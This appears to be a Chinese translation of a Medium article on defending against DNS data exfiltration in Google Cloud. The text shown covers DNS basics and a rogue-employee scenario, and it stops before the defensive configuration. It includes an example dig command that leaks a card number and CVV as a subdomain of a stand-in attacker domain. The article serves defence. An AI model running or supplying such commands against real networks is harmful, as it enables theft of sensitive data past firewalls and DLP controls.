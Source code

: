 # 在 GCP 防范 DNS 泄漏

> 原文：<https://medium.com/google-cloud/protecting-from-dns-exfiltration-in-gcp-3c85d597d6ef?source=collection_archive---------0----------------------->

![](img/dd93d7758b5f0cd62ae39a5b6c5bab28.png)

DNS 是每个网络中必不可少的系统，它不仅是互联网的电话簿，也是私有网络的电话簿。但是 DNS 也可以用作数据泄露的途径。我将展示如何在 GCP 配置云 DNS 来帮助抵御这些威胁。

# DNS 安全背景

DNS 的基本操作很容易理解。你查询某项服务的 IP，域名服务器会为你解析。例如，您可以查询“www.google.com”的 IP 地址:

```
$ dig +short [www.google.com](http://www.google.com)
142.250.185.4
```

想象一下，我是一名流氓员工，坐在一个网络中，可以访问信用卡信息等敏感数据。我想将其渗透到我自己的服务器上，但通常公司会使用防火墙来阻止与未知网站的连接，或者使用 DLP 解决方案来防止关键信息的渗透，或者使用其他安全解决方案。然而，我不需要自己连接到我的服务器。由于 DNS 流量通常是允许的，我可以使用 DNS 作为我的出口向量。让我们看看怎么做。

我可以用查询日志为“evil-site.com”运行我自己的名称服务器。从网络内部的系统运行:

```
$ dig **cc**4917484589897107**cvv**123.evil-site.com
```

